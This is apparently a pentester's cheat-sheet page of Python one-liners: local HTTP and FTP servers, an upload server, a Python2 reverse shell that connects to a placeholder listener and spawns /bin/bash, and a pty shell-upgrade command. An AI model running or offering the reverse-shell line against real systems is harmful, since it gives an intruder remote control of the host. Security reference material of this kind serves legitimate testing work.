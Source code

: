 ```yaml
---
title : "Python"
# pre : ' '
description : "Python is a programming language that lets you work quickly and integrate systems more effectively."
date : 2022-12-05T09:22:16+01:00
# hidden : true
# draft : true
weight : 0
tags : ['Python2', 'Python3']
---
```


## Python

Python is a programming language that lets you work quickly and integrate systems more effectively.

## Python Web Server

Serving files with local web server.

Python2

```plain
python2 -m SimpleHTTPServer 9090
```

Python3

```plain
python3 -m http.server 9090
```

## Python2/3 FTP Server

Requires: `python2 -m pip install pyftpdlib` / `python3 -m pip install pyftpdlib`

**Note:** By default this will allow *anonymous* login. To use username/password based authentication, please use the `-u USERNAME` and `-P PASSWORD` flags.

```plain
python2 -m pyftpdlib -p 21 -w
```

```plain
python3 -m pyftpdlib -p 21 -w
```

## Python3 Web Server with Upload

Download script [here](https://gist.github.com/crypt0rr/19f009c90205697ef26ab1fd82c26903).

```plain
python3 HTTPServerWithUpload.py -p 80
python3 HTTPServerWithUpload.py --port 80
```

## Python2 One-Liner Reverse Shell

```plain
python2.7 -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<LISTERNER-IP>>",<<LISTERNER-PORT>>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

## Upgrade to Interactive Python Shell

Python2

```plain
python -c 'import pty; pty.spawn("/bin/bash")'
```

Python3

```plain
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## URL list

- [Python.org](https://www.python.org/)
